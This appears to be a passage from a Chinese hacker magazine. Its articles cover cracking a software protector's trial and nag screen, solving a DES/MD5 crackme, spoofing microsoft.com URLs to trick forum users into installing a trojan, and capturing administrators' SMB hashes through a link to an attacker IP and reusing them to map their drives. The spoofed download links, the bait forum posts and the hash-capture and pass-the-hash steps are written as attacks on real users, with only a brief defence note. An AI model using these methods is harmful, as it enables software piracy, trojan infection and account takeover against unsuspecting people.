限于篇幅，后面的几十处代码还原就没有罗列了，有兴趣可以自己试试。

## 关于破解

注册文件是别想啦，Key Protection 功能也被封了，其他的限制倒可以想想办法爆破。

- 1. 如果你的 SVK Protector DEMO 1.32 已经过期或者弹出某某错误拒绝运行，去你的 system32 下（Win98 是 system）把 svkp2.dll 和 ispn2.dll 两个文件删除，这两个东东保存的就是使用天数、次数的信息。怎么样？又重新开始了吧？
- 2. 程序界面中出现的“Unregistered, Demo”字符串就随你心意修改了，改成你自己的专用版？
- 3. 用其加壳后目标程序运行弹出的“Unregistered Version”的保护提示可以这样去除：

```asm
0042AF06  FF9318610000    call dword ptr [ebx+00006118]
```

把上面代码改成下面的就行啦，以后加壳不会再出现 NAG 了。

```asm
0042AF06  83C4 10    add esp, 10
0042AF09  90         nop
0042AF0A  90         nop
0042AF0B  90         nop
```

icefire 编后：敌间之来间我者，因而利之，导而舍之，故反间可得而用也。或许此篇文章能给广大软件逆向工程爱好者启迪，开拓思路。[刘志勇1]

> [刘志勇1] 对这次脱壳的经历有什么心得？

icefire：本文是 Cracker 初级教程系列的第三篇，通过一个简单的 crackme 实例来了解 DES 在加密中的基本应用。破解的目标是 crackme.exe 程序，已经收录到光盘杂志相关栏目中，本期的 Crackme 程序用到了 MD5 及 DES 两种加密算法，难度适中。之所以用到 MD5 算法，是因为上期讲的是 MD5 算法，为了起到温故知新的效果，故 Crackme 程序加上了 MD5 算法，希望能使读者的分析水平得到进一步的提高。

- 适合对象：共享程序员，密码学爱好者，破解器
- 前置知识：跟踪，汇编，密码学

## Cracker 初级教程之



## DES 算法破解

文／重剑（Nuke Group）

## DES 加密算法基本知识

DES（Data Encryption Standard）又叫数据加密标准，是 1973 年 5 月 15 日美国国家标准局（现在是美国国家标准技术研究所，即 NIST）在联邦记录中公开征集密码体制时出现的。DES 由 IBM 开发，它是对早期被称为 Lucifer 体制的改进。DES 在 1975 年 3 月 17 日首次在联邦记录中公布，在经过大量的公开讨论后，1977 年 2 月 15 日 DES 被采纳为“非密级”应用的一个标准。最初预期 DES 作为一个标准只能使用 10～15 年，然而，事实证明 DES 要长寿得多。在其被采用后，大约每隔 5 年被评审一次。DES 的最后一次评审是在 1999 年 1 月，在当时，一个 DES 的替代品，AES（Advanced Encryption Standard）开始使用。

DES 是一种分组对称加解密算法，用 64 位密钥（实际用 56 位，其中每第八位作奇偶校验位）来加密（解密）64 位数据，加密的过程伴随一系列的转换与代换操作。DES 加密（解密）的过程可以分为两步：首先变换密钥得到 56 位密钥，然后经转换操作得到 48 位共 16 组子密钥。其次，是用上面得到的 16 组子密钥加密（解密）64 位明（密）文，这个过程会有相应的 S-BOX 等的代换－转换操作。整个算法加密过程可以参考 DES 标准说明文件（http://csrc.nist.gov/CryptoToolkit/tkencryption.html）。

## 如何识别 DES 加密算法

由于 DES 是加（解）密 64 位明（密）文，即为 8 个字节（8*8=64），可以据此初步判断这是分组加密。加密的过程中会有 16 次循环与密钥置换过程，据此可以判断有可能是用到 DES 密码算法，更精确的判断还必须懂得一点 DES 的加密过程。

## Crackme 实例分析

本期 Crackme 用到 MD5 及 DES 两种加密算法，难度适中。这次我们重点来看一下 DES 的加密过程及注册算法过程。用调试器载入程序，下 GetDlgItemTextA 断点，可以定位到下面代码，我们先来看一下整个 crackme 的注册过程：



从上面分析可以看出，注册过程是类似：f（机器码，注册码）式的二元运算。机器码是经过 MD5 算法得到的中间 16 位值，注册码是经过 DES 解密过程取得 16 位注册码，然后两者比较，如相等，则注册成功。机器码的运算过程可以参照上一期的 MD5 算法来理解。下面重点来说一下注册码 DES 的运算过程。

- 1. 密钥处理过程：一般进行加解密过程都要初始化密钥处理。我们可以跟进 004023FA CALL Crackme1.00401A40 这个 call，可以看到如下代码：

```asm
...(省略)...
00401A4D  LEA ECX,DWORD PTR DS:[ECX]
00401A50  MOV EDX,EAX
00401A52  SHR EDX,3
00401A55  MOV DL,BYTE PTR DS:[EDX+ESI]
00401A58  MOV CL,AL
00401A5A  AND CL,7
00401A5D  SAR DL,CL
00401A5F  AND DL,1
00401A62  MOV BYTE PTR DS:[EAX+417DA0],DL
00401A68  INC EAX
00401A69  CMP EAX,40    ==> 这里比较是否小于64
00401A6C  JL SHORT Crackme1.00401A50
```

以上过程就是去掉密钥各第八位奇偶位。

```asm
...(省略)...
00401AB0  MOV DL,BYTE PTR DS:[ECX+417D9F]
00401AB6  MOV BYTE PTR DS:[EAX+417BA3],DL
00401ABC  ADD EAX,4
00401ABF  CMP EAX,38    ==> 这里进行密钥变换
...(省略)...
00401BBF  MOVSX ECX,BYTE PTR DS:[EAX+412215]
00401C06  MOV CL,BYTE PTR DS:[ECX+417D9F]
00401C0C  MOV BYTE PTR DS:[EAX+417BA5],CL
00401C12  ADD EAX,6
00401C15  CMP EAX,30    ==> 这里产生48位的子密钥
```

```asm
00401C18  JNZ SHORT Crackme1.00401BA0
00401C1A  MOV EAX,DWORD PTR SS:[ESP+14]
00401C1E  MOV EDI,EAX
00401C20  MOV ECX,0C
00401C25  MOV ESI,Crackme1.00417BA0
00401C2A  REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
00401C2C  MOV EDI,DWORD PTR SS:[ESP+10]
00401C30  ADD EAX,30    ==> 下一组子密钥
00401C33  INC EDI
00401C34  CMP EAX,Crackme1.00417B90    ==> 这里进行16次的生成子密钥过程
00401C39  MOV DWORD PTR SS:[ESP+10],EDI
...(省略)...
```

可以看到 8 位密钥为：1,9,8,0,9,1,7,0

- 2. 对数据处理的过程，跟进 004024C7 CALL Crackme1.00402050，到如下代码：

```asm
00402072  MOV BYTE PTR DS:[EAX+417E30],DL
00402078  INC EAX
00402079  CMP EAX,40    ==> 这里取得64位数据
0040207C  JL SHORT Crackme1.00402060
...(省略)...
004020C6  MOV BYTE PTR DS:[EAX+417BA3],DL
004020CC  ADD EAX,4
004020CF  CMP EAX,40    ==> 进行第一次变换
004020D2  JL SHORT Crackme1.00402080
004020D4  MOV AL,BYTE PTR SS:[ESP+20]
004020D8  TEST AL,AL
004020DA  MOV ECX,10
...(省略)...
00402191  MOV EBP,DWORD PTR DS:[415094] ; Crackme1.00417E30
00402197  SUB EAX,EBP    ==> 这里对变换后的数据分为两部分
00402199  MOV DWORD PTR SS:[ESP+10],EAX
0040219D  MOV DWORD PTR SS:[ESP+20],Crackme1.00417B60
```

```text
004021A5  MOV EAX, DWORD PTR SS:[ESP+20]
004021A9  MOV ECX, 8
004021AE  MOV ESI, EBP
004021B0  MOV EDI, Crackme1.00417E10
004021B5  PUSH EAX        ==> 这里用上面生成的子密钥来解密数据
004021B6  MOV EBX, EBP
（省略）
004021FF  SUB EAX, 30     ==> 下一个子密钥
00402202  CMP EAX, Crackme1.00417890
==> 这里将循环16次，典型的DES加解密过程
00402207  MOV ECX, 8
0040220C  MOV ESI, Crackme1.00417E10
00402211  REP MOVS DWORD PTR ES:[EDI], DWORD PTR DS:[ESI]
（省略）
0040225A  MOV BYTE PTR DS:[EAX+417BA2], DL
00402260  MOV DL, BYTE PTR DS:[ECX+417E2F]
00402266  MOV BYTE PTR DS:[EAX+417BA3], DL
0040226C  ADD EAX, 4
0040226F  CMP EAX, 40     ==> 这里只是末置换
00402272  JL SHORT Crackme1.00402220
00402274  MOV EBP, DWORD PTR SS:[ESP+18]
00402278  MOV ECX, 10
0040227D  MOV ESI, Crackme1.00417BA0
（省略）
```

87e68a0e7d2810，此即为真正的注册码。

## DES 加密算法总结

目前在国内使用密码学注册算法的共享软件不多，但从以上分析可见，使用某种高强度的密码学算法可以使注册过程强度增大好几倍，这使得 Cracker 要分析出注册机必须花费大量的时间，这样可以在一定的程度上阻止软件被 Cracker 快速破解。为了防止 Cracker 爆破软件，可以加一个高强度的壳，这样可以组成目前相对较好的一种加密方案。

对付这种加密方案，Cracker 必须掌握一定的密码学知识，否则跟进那些密码运算模块，只会看到大量的“0”“1”，会被算法过程搞得头晕眼花。没有捷径，只有踏实的技术实力才能轻松应对这种加密方案。

有兴趣的读者可以参考 DES 算法来理解上面的过程。

## 使用 DES 加密算法的典型软件

现在使用 DES 加密算法的共享程序非常多，学习了本文所讲的方法后，可能很多读者都想找个实际的程序练手，不过需要声明的是：我们旨在提高国内加密解密的整体水平，不能用本文所讲的技术做触犯法律的事，否则，所带来的一切法律责任自负，与作者和本杂志社无关。

常见的采用 DES 加密算法的程序很多，比如共享软件“变脸王”的注册码后半部分只用了 DES 一种算法，还有公路坐标计算系统 V1.0 也用到 DES 加密算法。DES 是一种对称的算法，加密和解密用同一个函数，一般只要了解程序用到了 DES 算法，那么就可以很快搞定 DES 这部分注册过程。

## Crackme 总结

要找到注册码，应该对机器码生成的 MD5 值取前面 16 位，再用 DES 加密这 16 位字符串，加密后的十六进制值即为注册码。如：机器码 2747318257，变换后的 MD5 值为 7828e8ca43f7d8329ead4c1faa39c1ec，取前 16 位 7828e8ca43f7d832，十六进制值（37 38 32 38 65 38 63 61 34 33 66 37 64 38 33 32）用 DES 加密后数据为 5041a5d06937f8f73f。

> **编后**
>
> 孙子曰：故用兵之法，十则围之，五则攻之，倍则战之，敌则能分之，少则能守之，不若则能避之。故小敌之坚，大敌之擒也。本例主要是采用了 DES 加密算法，但是同时也用了 MD5 算法加了掩护，所以，在进行软件逆向工程时要判断敌情，根据敌情的不同而采取不同的战术方针。

socket：网络上再不是 ipc$ 入侵的天下，现在无数的新手在感叹“肉鸡难找”！的确，现在网络整体的安全水平又有所提高，很多朋友都知道如何防护简单的攻击了（蝴蝶：“这可是小妹‘黑器攻防’板块的功劳哦！”，wtf：“是是是！大妹子把中国的整体网络安全都提高了！”……“别用你的鸡腿打我啊！我对你的敬仰如长江之水……%#@#$&*）。

呵呵，让他们一边闹去，1月的杂志上，新手们反映利用 Flash 捕捉肉鸡的方法非常好，希望我们再照顾一下他们，再发表类似的文章。考虑到了给新手朋友们一个提升技术的机会，本期我们又推出了一个捕获肉鸡的方法，希望大家喜欢。同时，文末还特别应蝴蝶 MM 的要求加上了防护的办法，看黑防的朋友们可别中招哦！

## 利用浏览器漏洞构建完美木马

文／夏雨天

URL 是 Uniform Resource Locators（统一资源定位器）的简称，以前曾经有文章是利用 IE 的地址栏做文章。比如，利用 http://www.microsoft.com@www.yourdomain.com（实际上访问的是 www.yourdomain.com）或者 http://www.toronto.com@3633633987/（实际上访问的是 216.148.218.195）等方法来诱骗别人。当我还是个菜虫子的时候，不知道被骗过多少次。不过，现在已经成长成为一只菜鸟了，那些方法已经对我不好使了，可“欺骗”他人的理想也一直没有实现。不过最近微软的浏览器的漏洞帮了我的大忙，在这里感谢盖茨大哥了。

## 漏洞利用

我们可以利用这个漏洞，让浏览者访问我们的木马页面，同时再结合其他漏洞，比如 IE 的 Object Data Remote Execution Vulnerability 漏洞，就可以让用户甘心情愿地等待木马下载并执行。这样，就可以轻松地得到好多的肉鸡。

OK, Let's go go go!

首先，我们构造一个首页，最好装扮得和正常的个人主页一样，没有什么特殊之处。然后添加一个超级链接，题目要比较吸引人，链接的目标地址写成这样（这是关键所在）：

`<a href="http://www.microsoft.com%01@www.yourdomain.com/Devil5.html">点击浏览</a>`

其中 www.yourdomain.com 就是你的空间的地址，而 Devil5.html 就是用木马生成器生成的 htm 文件。当用户点击按钮时，就会出现如下的情景：地址栏显示的是 http://www.microsoft.com，但实际访问的却是 http://www.yourdomain.com/Devil5.html。

接着，我们需要构造一个比较完美的网页木马，这个在 2004 年第 1 期杂志上运动男孩有相应的描述。

## 漏洞描述

使用类似 `http://user@domain` 的 URL，并在“@”字符后增加 0x01，可以隐藏实际的页面地址，部分浏览器在打开这个 URL 时不会显示真实的 URL，并在当前位置显示不同域中的页面。如果这个页面含有木马或者其他的一些恶意程序，目标用户就可能被欺骗，泄露敏感信息。几乎所有的浏览器都存在这个漏洞，目前微软还没有提供补丁或者升级程序，大家可以放心地去大干一场了。

在这里我就不赘述了，该文的方法也很实用，感兴趣的朋友可以翻看 2004 年第 1 期的《黑客防线》。不过，今天我推荐另外一个工具，同样也是生成非常好的网页木马（图1）。



图1

软件操作很简单，就不用再多说了。再推荐另外一个工具，就是 Devil5，这个工具可以把一个应用程序插入到另外一个程序中去。软件下载后，有 3 个可执行文件：DelDevil5.exe、Devil5.exe、EditDevil5.exe。顾名思义，EditDevil5.exe 就是配置文件（图2）。



图2

我们选择木马服务端 Devil5，比如起名就叫：Devil5.exe，先经过 Devil5 的配置，让它有进程插入的功能，然后再用 exe2bmp.exe 生成网页木马，最后生成了 3 个文件：即 Devil5.asp、Devil5.bmp、Devil5.htm（最好把 Devil5.htm 再进行精加工，加工得和微软的网站一模一样，真的不行的话，就把微软的一个页面 down 下来，然后加工。不好意思，盗用了微软的页面，应该没有侵犯版权吧），然后上传到你的 ASP 空间。

这样，当用户访问你的 index.htm 时，你就可以让其进入第二个页面，即 Devil5.htm。此时，地址栏里显示的是 http://www.microsoft.com，估计用户无论如何也想象不到微软会在他的机器上安装木马吧？

至于如何让别人访问 muma.htm 的方法很多，比如到一个人气很旺的论坛，发表一篇帖子：微软又出了最新漏洞，危及迄今所有的操作系统。然后在帖子内容中添加一个超级链接，链接到你的 Devil5.htm，在链接地址中填写：http://www.microsoft.com%01@www.yourdomain.com/Devil5.htm，这样就一切 OK 了，相信很多人会中招的。

其实还有更简单的办法，你完全可以模仿一个网页，比如微软的补丁包下载网页，利用此漏洞让浏览者心甘情愿地下载木马，心甘情愿地执行木马程序，心甘情愿地成为你的肉鸡。怎么样？感觉很爽吧？！当然，下载的链接也要利用这个漏洞来处理，最好做成这样：

```html
<a href="http://www.microsoft.com%01@www.yourdomain.com/Devil5.exe">
点击下载</a>
```

这样，下载的时候也不会露出马脚。

## 防范措施

至于防范的方法，就是如果看到可疑的链接，看看它的属性。如果发现 @ 符号，而且你也肯定这个站点不需要登录，那就要小心了。如果真的看不明白，就在 URL 之前添加 view-source:，比如：view-source:http://www.sina.com.cn。这样，记事本就会打开新浪首页的源代码。如果输入 view-source:http://www.microsoft.com%01@www.yourdomain.com/Devil5.htm，你就可以看打开的到底是什么网站。或者你对已经打开的某个站点产生了怀疑，你可以打开浏览器的另外一个窗口，输入当前显示的 URL，如果两个窗口不一致，这个窗口肯定就是假的，不过此时估计你已经成了别人的肉鸡了。当然，最好的防范办法，就是等待微软出补丁，然后及时打上补丁（谁乱扔垃圾？这些谁不知道，还用你在这儿啰嗦！！）。

### 编后语

> 这篇文章技术性不高，而且漏洞本身也没有多少威胁。但配上木马的使用，其直接效果就是欺骗浏览者，让浏览者相信这个页面是绝对可信的，同时也应该相信自己已经成了一台“肉鸡”。

蝴蝶：春去秋来，黑客在战术上面是不断地推陈出新，特别是在社会工程学攻击上面，黑客们更是表现得淋漓尽致。那么，如果把我们的社会工程学攻击＋真正的黑客技术，攻击就表现得更完美了。废话不多说，且看下面要带给大家的这稿和 SMB 有关的历险记吧。

## 我截取的 Hash 这样用

文／图 netbug 天街小雨

我是 netbug，相信大家都看过我写的一些笨拙文章吧。呵呵，最近也是闲得无聊，朋友您都在忙什么呢？黑客实验室开放也有一段时间了，开始还信心十足地攻破了前 8 关，但后来就没有信心了，老进不去。Wt 是不是把关卡设得太牢固了点吧。听说天街小雨有了点进展，便老是缠着小雨给点指示，哎，谁知道小雨给我一句：社会工程学攻击。这社会工程学真的可以用在实验室里面吗，真的朦胧。

无聊之际便想去论坛晃一下，听说这论坛人气很旺的（都是管理员管理有方啊），不如看看这论坛的安全性吧。一阵狂查漏洞还是没找到可以利用的。论坛没漏洞，但论坛也是靠 IE 才运行的啊，IE 总不会没漏洞吧。想想管理员总不能保证每个人用的 IE 都是完美无缺的吧。听说可以通过 IE 截取到用户的 hash 值，那么我们就可以根据 hash 值破解用户的密码了。只听过，自己也没实践过，干脆今天就来试试吧。

## Hash 的介绍

Hash 是一种明文密码的加密形式。在 Windows 系统里面，密码一般用 hash 的形式来传递。系统之间相互的验证都是靠 hash 来验证。也就是我们通过截取到 hash 的密文并把这个 hash 密码传递给服务器以取得其信任。这样我们就可以以 hash 的权限任意存取对方服务器的资源。

## Hash 抓取之前的布局

在网上搞了半天终于找到了传说中的 xxxHash 截取工具。接下来便在论坛上发了一个有个性的帖子，标题是：“看看论坛管理员做的好事吧！！！”当然了，这个只是一个超级链接，链接到我自己的服务器上。

```text
Link:file://218.88.55.1/share/w.html
```

当有人点我的链接的时候，我就得到了点这个链接的用户和 Hash 值（如果你对这个还不会的话，请翻看一下过去的《黑客防线》杂志）。一切操作完毕，就等待有人上钩了。此时，心里正在盘算着，如果得到了 admin 密码，不是就可以连接到远程的服务器了吗，或许我还可以远程操作它的注册表也说不定。等啊等啊，终于等到有人上钩了：

```text
Request type: Session Message: 278 bytes
SMB COM SESSION SETUP ANDX
Password lengths: 24:24
Case insensitive password: 59A8A04CC37D226F0AC44065C84EDF9FEB1BB611C3CBE936
Case sensitive password: 8BA548AF1F9A517BBFBEF4E53D1D8B5D94E81C5523E7B251
Username: "administrator"
Domain: "Coc"
OS: "Windows 2000"
Lanman type: ""
Response: Session Message: 148 bytes
```

看到其中一个用户名为：Administrator 的 hash。呵呵，还真的有效果，于是马上找来 lc4 进行密码的强行攻击。特别令人兴奋的是，这个用户来自论坛同网段的主机，也许是真的管理员光临过了。这暴力破解也不知道要等多久，先把这个破解进程开着，和小雨讨论 SMB 的问题去了。后来自己有点事情也就出了家门。等我回来的时候，才想起自己的破解程序还开着，心里暗自高兴：一定有结果了。没想到啊，真令人失望！这管理员不知道设置了什么复杂密码，破解程序还在运行，并且看到才运行了 24%。这样等下去，我是没耐心的，破出来还好，万一没，这不……心里顿时觉得就没招了。相信许多朋友都遇到了这样的经历吧。我本来都打算放弃了的，但是后来我想，Windows 认证对方的时候为什么就要发送密码的 hash 值呢？因为如果对方的服务器也有相同的用户名和密码，那么它们密码的 hash 值应该是一样的。那么换一种方式，我其实已经得到了对方管理员的密码，但是是 hash 值。这句话有点拗口，试想您能够把得到的 hash 值用在 net use 的密码部分吗？显然不可能，我们需要的是一个转换程序，当 net 程序发送密码的时候，送出的不是我们自己随便取的密码的 hash 值，而是对方用户的 hash 值。理解了吗？（ps：还是不明白）具体点，net 程序可能要把我们的用户名和密码转换成一个 hash 值，用户名这个部分不变的，只要密码不同 hash 值就不一样。我们只要替换了系统的 hash 转化函数，把用“administrator”＋“随便输入的密码”转换成我们截取的远程 hash 不就可以了吗？

## 具体的操作步骤

首先，我们要停掉系统自身的 SMB 服务器端，换上我们自己的 SMB 服务器，在和远程 SMB 服务器交流的时候用我们自己的 SMB 服务器和它交流。

```text
H:\>net stop server
下面的服务依赖于 Server 服务。
停止 Server 服务也会停止这些服务。
Computer Browser
是否继续此操作? (Y/N) [N]: y
Computer Browser 服务正在停止。
Computer Browser 服务已成功停止。
Server 服务正在停止。
```

```text
Server 服务已成功停止。
```

点 Y 就可以继续了。Server 服务是 Windows 里面处理 SMB 的主要程序。现在请出我们的杀手锏 SMBproxy，它可以完全地模拟一个 SMB 服务器。现在我们安装它，安装之前我们要对我们截取的 hash 做出处理。我们把 hash 值处理成：`<Username>:<UID>:<LMHash>:<NTLMHash>:::` 的形式。一般来说 UID 栏都为 500，Username 当然要用 Administrator 了，LMHash 可以随便乱写，NTLMHash 部分就要填写我们截取到的 hash 值。我得到的形式是：

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

把它保存为一个文件，比如 adminhash.txt。好了，现在转到 DOS 下（图1）。



图1

呵呵，现在我们就来连接一下这个管理员的服务器吧。运气好的话，没开防火墙。我们就可以映射得到一个盘符（图2）。



图2

呵呵，心里真的是高兴，我们可以做很多 admin 才可以做的事情了。剩下来的事情我自然就是通知了对方管理员说服务器存在漏洞，请更改密码。其实这也不是服务器自己有漏洞，而是管理员对我的东西好奇罢了。请大家以后多注意了，千万别看到网上什么东西好看就去点，有时候这是黑客设下的陷阱。

### 总结

用这种方法进行攻击只适合 NT 4.0 和 Windows 2000 的操作系统。我在 Windows 2003 .net 下面测试不能成功，这也说明了 Windows 2003 .net 的安全性的确做得不错。

得到对方 hash 的办法有很多，我们除了用专门的抓 hash 密码的工具外，还可以采用 pwdump 等工具来得到对方的密码 hash 值，采用网络 sniffer 的方法来得到超级用户的 hash 值等办法。采用 IE 的方式得到密码其实和社会工程学攻击也是分不开的。有兴趣的朋友可以到网上去找找关于 NTLM hash 的相关知识。

> 编后语
>
> 原来大家可能都探索过 SAM 文件，其实这里面可以导出管理员的 hash 值的。也许是破解密码需要时间的原因吧，很多朋友都放弃过。看了这篇文章大家有什么感想呢？千万别放弃自己得到的任何破解的机会。

socket：本文是给安全新手们准备的一个攻击实例分析，作者在文中对自己的思路做了详细分析，这点是新手们需要学习和借鉴的地方。另外，本文用到了一些现成的工具，并且以得到弱密码为前提，比较实际，相信有很多新手都是从这一步开始的……

## MYSQL 攻击全攻略

文／萧风

